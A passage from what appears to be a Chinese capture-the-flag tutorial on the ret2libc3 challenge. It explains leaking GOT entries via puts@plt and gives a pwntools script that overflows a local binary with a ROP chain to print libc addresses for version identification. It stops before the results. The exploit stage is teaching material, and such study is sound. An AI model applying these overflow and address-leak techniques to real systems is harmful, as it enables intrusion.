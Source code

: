 ![stack-6](./README.assets/stack-6-1681897017950-2.jpg)

上图中没有用\_\_libc\_start\_main@got，而是puts@got，没啥特变的原因，就是因为前者太长了，反正puts()函数在这个时候也已经在GOT表中登记在册了，都可以用。实现的脚本如下：

```python
from pwn import *


# ret2libc3 - stage 01
elf = ELF("./ret2libc3")
import random
addr_puts_plt = elf.plt["puts"]
for x in random.sample(elf.got.keys(), 8):
    addr_x = elf.got[x]

    pwn_obj = process("./ret2libc3")
    pwn_obj.sendlineafter(
        b"!?", 
        b"#" * 112 + 
        p32(addr_puts_plt) + 
        b"#" * 4 + 
        p32(addr_x))
    print(f"[#] {x} addr: {hex(u32(pwn_obj.recv(4)))}")
```

上面是确定libc版本的脚本，这里进行了独立的多次溢出，分别输出了随机选择的几个函数的实际地址（目的是想缩小一下查找范围），结果是：
